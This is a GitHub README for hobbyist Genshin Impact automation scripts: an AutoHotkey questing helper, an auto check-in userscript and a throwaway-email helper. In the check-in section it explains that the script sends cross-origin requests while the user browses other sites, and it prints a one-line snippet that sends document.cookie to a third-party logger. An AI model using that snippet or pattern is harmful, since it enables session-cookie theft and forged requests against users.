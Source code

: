 # Genshin Impact Script(s)
### This is free and unencumbered software released into the public domain.

## Plans?
None, for now, it varies.

## Available scripts:

🔗 __[Retrier3-alpha](https://github.com/SlowsieNT/Genshin-Impact/tree/main/Retrier3-alpha)__ is now available at GitHub!<br>
(Not a bot, it is Helper for questing)<br>
🔗 __[retrier2.ahk](https://github.com/SlowsieNT/Genshin-Impact/blob/main/Retrier2-Legacy/retrier2.ahk)__ is now available at GitHub!<br>
(Not a bot, it is Helper for questing)<br>
🔗 __[genshin-checkin-redeem.js](https://github.com/SlowsieNT/Genshin-Impact/blob/main/js/tampermonkey/genshin-checkin-redeem.js)__ is now available at GitHub!<br>
(Used for auto redeem check-in reward)<br>
🔗 __[quickfmg.js](https://github.com/SlowsieNT/Genshin-Impact/blob/main/js/tampermonkey/quickfmg.js)__ is now available at GitHub!<br>
(Used for auto generate random mail & copy it, and then copy verification code for mihoyo account)

## NOTE:
**retrier2** (old) will no longer be updated.<br>
*retrier2, my friend, you have served us well; **Requiescat in pace**.*

## Retrier3 (alpha)
#### Change variables in Retrier3.ahk!
- Like changing `vStandalone64Path` to skip long opening cutscene!
  - It will rename files, will NOT remove!
- Like changing `vPlayerFemale` to `0` for boy!
- Like changing `vNickname` to whatever name you wish!
- Like changing `vResolutionPostfix` to suit your screen resolution!
  - Pick between `WM1440`, and `FS1920`!!!
 
#### Supported Screen resolutions
- 1920x1080 (Fullscreen Mode)
- 1440x900 (Windowed Mode)
- No other resolutions are planned.<br>
#### Retrier3 is superior to v2
- More stable
- More code/"complex"
- "Easier" to maintain

## retrier2.ahk SETUP, same for v3 (except maintaining)
FOR pre-made script: <br>https://www.youtube.com/watch?v=7YDn-NKuO7A<br>
How to maintain: <br>https://www.youtube.com/watch?v=q0eT1Qar_nY

NOTE:
- Don't press F2 like a madman during register/login, script will break
  - Then you need to Press Home + F2
- Script can be used at ANY QUEST
  - BUT some MAY end up being STUCK in a loop (Venti's quest is just an example)
- Script can break
  - Press Home then F2 again if it escalates during Questing

### FAQ
Q: What's center of the mouse?<br>
Q: What's center of the cursor?<br>
A: Look at [this picture (*LINK*)](https://github.com/SlowsieNT/genshin/blob/main/center-of-cursor.png)<br><br>
Q: Will the script be updated in the future?<br>
A: Yes - to keep it alive, until 2022

[TEXT] FOR pre-made script:<br>
1. Go to Settings then Graphics
2. Set Quality to: Medium
3. Set Display Mode to: 1440x900 Windowed
4. Go to Settings then Language
5. Select Subtitles to: English

## genshin-checkin-redeem.js
(requires Tampermonkey/Greasemonkey Opera/Chrome/Firefox extension)<br>
#### NOTE: Only the account that is currently logged in, I may make a script for quick multi-account in few lines(C#) in the future!<br>
Every 3h script will try to check-in<br>
__Script will trigger when you are casually watching youtube videos, or just browsing__<br>
This script will send 2 requests, one will attempt to get checkin game reward, and the other request is another checkin<br>
I have tested it on other accounts and it should be working for you as well<br>
#### ALL SERVERS
Junior Developers may freak out because they'll see error(s) in the console, in the contrary `it just works™` because request is sent, but the response cannot arrive due CORS
- This technique is very common in Hacking
  - It was being used for DoS-ing
  - Or sending `document.cookie` to the 3rd party logger website
    - Sending `document.cookie` was mostly sent via `(new Image).src="...?_="+encodeURIComponent(document.cookie)`

## quickfmg.js
(requires Tampermonkey/Greasemonkey Opera/Chrome/Firefox extension)<br>
Once you add this script and go to [fakemailgenerator.com](http://www.fakemailgenerator.com/), you would click on Logo that will have green background.<br>
Once you click on the Logo, it will copy the new generated mail automatically<br>
IMPORTANT: It will copy verification code for genshin impact account, no worries
